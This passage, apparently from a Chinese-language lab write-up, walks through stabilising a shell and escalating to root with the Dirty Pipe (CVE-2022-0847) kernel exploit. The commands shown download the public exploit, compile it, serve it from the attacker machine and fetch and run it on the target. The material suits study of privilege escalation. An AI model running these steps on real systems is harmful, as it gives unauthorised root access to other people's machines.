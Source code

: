 ```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo; fg
reset
xterm
```

![image-20220407114925922](https://s2.loli.net/2022/04/07/G2CRUcO61Xfne8H.png)

### Dirty Pipe提权漏洞

查看系统的版本为`5.16`

![image-20220407115101335](https://s2.loli.net/2022/04/07/nSyjNIEC5bMgvJP.png)

前段时间刚爆出了一个Linux的提权漏洞`Dirty Pipe`，看了一下[The Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/#the-dirty-pipe-vulnerability)的影响范围：

- version > 5.8
- version < 5.16.11、5.15.25、5.10.102

![image-20220407115224611](https://s2.loli.net/2022/04/07/qmCM3tDyNL9c4Zz.png)

这台靶机服务器的版本在影响范围内，所以我们可以直接下载`exploit`并编译，上传到靶机中执行，来获得`root`权限

现在攻击机下载[DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)，并编译。因为攻击机和靶机的Linux版本不一样，所以使用`-fPIC -static`参数进行编译，防止因编译环境不一致导致`exploit`运行出现问题

![image-20220407115650703](https://s2.loli.net/2022/04/07/RKEBUfc4ZJp7PdL.png)

```
wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/main/exploit-2.c

gcc exploit-2.c -o exp -fPIC -static 
```

在攻击机用`python`起一个简易的服务器

```
python3 -m http.server 80
```

![image-20220407115741630](https://s2.loli.net/2022/04/07/FNzIDskuW1m32Sx.png)

在靶机下载，并赋予执行权限

```
wget 10.10.16.6/exp

chmod +x ./exp
```

按照`exploit`作者的使用方法，执行`exploit`劫持`SUID`成功提升至`root`权限

![image-20220407115909744](https://s2.loli.net/2022/04/07/O6DUQZmzcsqxdTw.png)

![image-20220407120119543](https://s2.loli.net/2022/04/07/4JXxQYszoTRrjAB.png)
